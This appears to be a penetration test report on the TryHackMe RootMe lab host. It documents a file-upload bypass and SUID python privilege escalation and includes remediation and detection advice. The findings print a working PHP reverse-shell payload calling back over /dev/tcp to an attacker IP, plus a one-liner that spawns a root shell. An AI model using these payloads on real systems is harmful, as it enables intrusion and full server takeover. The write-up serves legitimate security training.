







# Penetration Test Report
<style>
pre { white-space: pre-wrap !important; overflow-wrap: anywhere !important; word-break: break-word !important; max-width: 100% !important; font-size: 8pt !important; line-height: 1.35; }
img { max-width: 92% !important; height: auto !important; display: block !important; margin: 8px auto !important; }
h2 { page-break-after: avoid; page-break-before: auto; }
h3 { page-break-after: avoid; }
ol, ul, li, table { page-break-inside: avoid; }
p { page-break-inside: avoid; }
</style>
## Target: TryHackMe - RootMe (10.49.182.150)
**Classification:** TLP:CLEAR - Lab Only | **Version:** 1.0 | **Date:** 2026-10-08 | **Author:** Laxmi Narayan | **Reviewer:** Self-Reviewed

> Authorization: Only tested on THM lab IP assigned to me via VPN. Flags redacted.

---

## Table of Contents
1. Executive Summary
2. Scope & Rules of Engagement
3. Methodology
4. Summary of Findings
5. Detailed Findings
6. Post-Exploitation & Proof of Impact
7. Remediation Roadmap
8. Appendices

---

## 1. Executive Summary
>This host(RootMe) was pron to File Upload Vulnerability in which an unauthenticated attacker can upload a malicious file via /panel/ to get remote shell as user www-data. It was having SUID python Vulnerability too, by which attacker can abuse SUID python and gain root priveleges.
Business Impact in real world: full server takeover, defacement, data theft.
Fix: upload validation first, then remove SUID. 

Risk summary: Critical: 0 | High: 2 | Medium: 0 | Low: 0

## 2. Scope & Rules of Engagement

**In Scope:**
- Target: 10.49.182.150 (THM RootMe machine IP, DHCP - valid during test)
- Window: 2026-10-07 16:30 to 18:30 UTC, VPN tun0 IP 192.168.194.204

**Out of Scope:**
- THM infrastructure, other users' machines, DoS, brute-force of SSH, social engineering

**Allowed:** nmap, gobuster, Burp Community, nc listener, manual upload of PHP reverse shell in lab, SUID enum, LinPEAS
**Disallowed:** No data exfiltration beyond flags, no persistence, cleaned uploads after test.

## 3. Methodology

Followed PTES + OWASP WSTG:
1. Recon: `nmap -sC -sV -oN nmap.txt`
2. Enumeration: `gobuster dir -u http://10.49.182.150 -w /usr/share/wordlists/dirb/common.txt`, manual source/robots check
3. Vulnerability Analysis: manual + `searchsploit`
4. Exploitation: reverse shell via allowed upload bypass
5. Post-Exploitation & PrivEsc: `sudo -l`, `find / -user root -perm / 4000`, GTFOBins verification
6. Reporting: screenshots + commands.txt + CVSS v3.1 + fix + detection

Tools: Kali, Nmap 7.99, Gobuster, Python2.7, Flameshot, revshells.com, GTFOBins, HackTricks as checklist.

## 4. Summary of Findings

| ID | Title | Severity | CVSS v3.1 | Status |
|----|-------|----------|-----------|--------|
| F-01 | Unrestricted File Upload in /panel/ leads to RCE | High | 8.8 (AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H) | Open |
| F-02 | SUID Binary /usr/bin/python allows PrivEsc to root | High | 7.8 (AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H) | Open |

## 5. Detailed Findings

### F-01: Unrestricted File Upload to RCE [High]
**Location:** `http://10.49.182.150/panel/` -> uploads to `http://10.49.182.150/uploads/shell.phtml`
**Description:** Upload filter blocked `.php` but allowed `.phtml`. No server-side MIME validation, uploads stored inside webroot and executed.
**Reproduction Steps:**
1. `gobuster` found `/panel/`
2. Uploaded `test.php` -> rejected, uploaded `shell.phtml` containing `<?php system("bash -c 'bash -i >& /dev/tcp/192.168.194.204/9091 0>&1' "); ?>` reverse shell to `192.168.194.204:9091` -> 200 OK - see Appendix B, Fig 03
3. Listener: `nc -lvnp 9091`
4. Browsed `/uploads/shell.phtml` -> shell as `www-data` - see Fig 04

# exact working commands
```bash
gobuster dir -u http://10.49.182.150 \
  -w /usr/share/wordlists/dirb/common.txt -o gobuster.txt
nc -lvnp 9091
# in browser: /uploads/shell.phtml
whoami; id
```

**Proof:** `screenshots/03-web.png`, `04-shell.png` - Flag `user.txt` in `/var/www/` read as www-data (redacted: `THM{***}`)
**Impact:** Unauthenticated RCE, full web takeover, pivot point.
**Remediation (fix):**
- Allowlist extensions `jpg,png` only, validate MIME + magic bytes, rename to random + store outside webroot, no exec in `/uploads/` via `php_flag engine off`, require auth for /panel/
**Detection:**
- Web logs: `POST /panel/ 200` + `GET /uploads/*.phtml`, Wazuh/Sysmon: `EventID 1 php spawning sh`, Sigma: `web_upload_php_execution.yml`
**References:** OWASP Unrestricted File Upload, CWE-434
**CVSS Justification:** Network, no privs, user interaction to trigger, full CIA High -> 8.8 High

### F-02: SUID Python Privilege Escalation [High]
**Location:** `/usr/bin/python` / `/usr/bin/python2.7` - ` -rwsr-xr-x root`
**Description:** SUID bit on interpreter allows any user to run as root.
**Reproduction:**
```bash
sudo -l
find / -user root -perm /4000 2>/dev/null
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'
id # uid=0(root)
cat /root/root.txt # redacted
```

**Proof:** `screenshots/06-privesc-enum.png`, `07-root.png`
**Impact:** Any low shell -> root, full host compromise.
**Remediation:** `sudo chmod u-s /usr/bin/python*`, use sudoers least-privilege or capabilities, audit with `find / -perm -4000`
**Detection:** Linux audited ` -w /usr/bin/python -p x`, Event: `uid 33 executing python with euid 0`
**References:** GTFOBins python SUID, CWE-250
**CVSS:** Local, low privs required, no UI, full CIA -> 7.8 High


## 6. Post-Exploitation & Proof of Impact
- User: `www-data (33)`, Host: `rootme`, proof files read: `/var/www/user.txt`, `/root/root.txt` (redacted)
- No persistence left, uploaded shells deleted: `rm /var/www/html/uploads/shell.phtml`
- No passwords cracked, no lateral movement (single host scope)

## 7. Remediation Roadmap (for exec)
1. Day 1: Fix F-01 - patch upload + disable exec in uploads + auth on /panel/
2. Day 7: Fix F-02 - remove SUID + rescan

<div style="page-break-before: always;"></div>

## 8. Appendices
### A. Nmap Scan (full output in `../THM-RootMe/nmap.txt`)
```text
# Nmap 7.99 scan:
# nmap -sV -sC -oN nmap.txt 10.49.182.150
Nmap scan report for 10.49.182.150
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh
  OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
| ssh-hostkey:
|   3072 a4:2c:6d:b3:e9:52:46:c3:4b:a3:8b:e0:25:97:6f:11 (RSA)
|   256 c6:f6:52:35:b4:04:97:d5:54:de:c3:7c:90:b6:46:f5 (ECDSA)
|_  256 92:d4:18:12:2c:b8:c1:53:dc:7f:8f:8b:f1:f2:4c:31 (ED25519)
80/tcp open  http
  Apache httpd 2.4.41 (Ubuntu)
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.41 (Ubuntu)
|  httponly flag not set (PHPSESSID cookie)
Service Info: OS: Linux
# 1 host up scanned in 17.32 seconds
```

### B. Directory Enumeration (full output in `../THM-RootMe/gobuster.txt`)
```text

.htaccess            (Status: 403) [Size: 278]
.htpasswd            (Status: 403) [Size: 278]
.hta                 (Status: 403) [Size: 278]
css                  (Status: 301) [Size: 312] [--> http://10.49.182.150/css/]
index.php            (Status: 200) [Size: 616]
js                   (Status: 301) [Size: 311] [--> http://10.49.182.150/js/]
panel                (Status: 301) [Size: 314] [--> http://10.49.182.150/panel/]
server-status        (Status: 403) [Size: 278]
uploads              (Status: 301) [Size: 316] [--> http://10.49.182.150/uploads/]
```

<div style="page-break-before: always;"></div>

### C. Screenshots Proof
- 01-target.png, 02-nmap.png, 03-web.png, 04-shell.png, 05-userFlag.png, 06-privesc-enum.png, 07-root.png

# target



# nmap



# web



# shell



# userFlag



# Privesc-enum



# root




<div style="page-break-before: always;"></div>

### D. Repro Commands (`commands.txt`)
```bash
# Nmap port scan
nmap -sV -sC 10.49.182.150 -oN nmap.txt

# Gobuster subdirectories finding
gobuster dir -u http://10.49.182.150 \
  -w /usr/share/wordlists/dirb/common.txt -o gobuster.txt

# Listener
nc -lvnp 9091

# shell commands
whoami; id

# getting way for privEsc
sudo -l
find / -user root -perm /4000 2>/dev/null

# privEsc
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

**E. Risk Rating Key:** Critical 9.0-10, High 7.0-8.9, Medium 4.0-6.9, Low 0.1-3.9 - CVSS v3.1 calculator: nvd.nist.gov/vuln-metrics/cvss

---
*End of Report*
